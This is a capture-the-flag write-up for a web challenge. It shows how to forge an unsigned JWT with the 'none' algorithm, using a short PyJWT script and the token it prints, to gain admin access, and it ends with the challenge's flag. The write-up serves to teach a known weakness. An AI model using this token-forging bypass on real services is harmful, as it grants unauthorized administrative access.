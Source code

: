 # ## Vulns? None

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Cookies? None
```

## Solve

Accessing the link provided in the challenge, a web page is provided with a simple login and register. Registering an account and login in after, a new link appears (*/administration*) and a cookie **token**.

![[images/after_login.png]]

Accessing the administration page we are received with: **No bussiness here!**.

Looking into the token, by the way its constructed looks like a JWT. Using https://jwt.io/ to decode it, the results are:

![[images/jwt_headers.png]]

Meet the "None" Algorithm: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
A simple python scripts allows us to craft a JWT with the None algorithm.

```python
# https://pyjwt.readthedocs.io/en/latest/
import jwt

payload = {'id' : 'admin', 'admin': True}
print(jwt.encode(payload, None, algorithm=None, headers={'kid': 'da39a3ee5e6b4b0d3255bfef95601890afd80709'}))
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoiZGEzOWEzZWU1ZTZiNGIwZDMyNTViZmVmOTU2MDE4OTBhZmQ4MDcwOSJ9.eyJpZCI6ImFkbWluIiwiYWRtaW4iOnRydWV9.
```

And now we can access the administration page.

## Flag

CTFUA{JWT_1337_N0n3_dnVsbg==}